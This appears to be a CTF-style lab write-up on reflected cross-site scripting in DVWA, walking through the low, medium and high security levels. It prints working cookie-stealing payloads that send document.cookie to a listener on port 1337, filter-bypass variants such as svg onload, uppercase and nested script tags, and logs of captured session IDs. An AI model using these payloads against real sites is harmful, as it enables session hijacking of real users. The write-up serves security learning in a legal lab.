 ```yaml
---
title: DVWA - XSS (Reflected)
date: 2023-12-17
categories: [CTF, Web Exploitation]
tags: [dvwa, xss, xss-reflected, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_reflected
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Reflected)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

Because its a **reflected XSS**, the malicious code is not stored in the remote web application, so **requires some social engineering** (such as a link via email/chat).

**Objective**: One way or another, steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_low_source.php))._

1. Putting our name in the input form, we notice the the parameter `name` appears on the address bar:

    ![](home_kuv4z.png)

2. Instead of our name, we can try a simple payload to see it will work:

    ![](low_test.png)

3. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](low_test.png)

4. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```

5. If we pass the exact same payload as the one we used for the [XSS (DOM)](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/#security-low) section, it won't work:

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
    ```

    ![](low_payload_fail.png)

6. If we view the page's source, we will notice that the `+` symbol disappears:

    ![](low_page_source.png)

7. We can try to [URL-encode](https://www.w3schools.com/tags/ref_urlencode.ASP) the `+` symbol and try again:

    ![](url_enc.png)

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```
    ![](low_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:17:49] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=low HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `<script>`, to disable any JavaScript ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_medium_source.php))._

1. First, let's get rid of the PHP error we have by changing `${name}` to `{$name}` in `/usr/share/dvwa/vulnerabilities/xss_r/source/medium.php` and refreshing the page:

    ![](php_error.png)

    ![](medium_php.png)

    ![](medium_php_fixed.png)

2. If we take a look at the page's source code, we will see that the `<script>` tag gets removed, so this time the same payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ![](medium_source_code.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_test.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:37:35] "GET /?cookie=security=medium;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

4. The developer's code is case sensitive so it is only checking for an exact match of `<script>`. So, we could also use the following payload to bypass this:

    ```javascript
    <SCRIPT>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

5. We could also apply the same concept as we did on the [LFI](https://cspanias.github.io/posts/DVWA-File-Inclusion/#local-file-inclusion-1) section, and pass the following payload:

    ```javascript
    <scr<script>ipt>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

## Security: High
> _The developer now believes they can disable all JavaScript by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_high_source.php))._

> You can fix the error as above.

1. This level can be attacked the same way as the previous one as the developer just changed the blacklisted pattern to `<s*c*r*i*p*t`:

    ![](high_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:42:59] "GET /?cookie=security=high;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=qHHADT52L5s).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).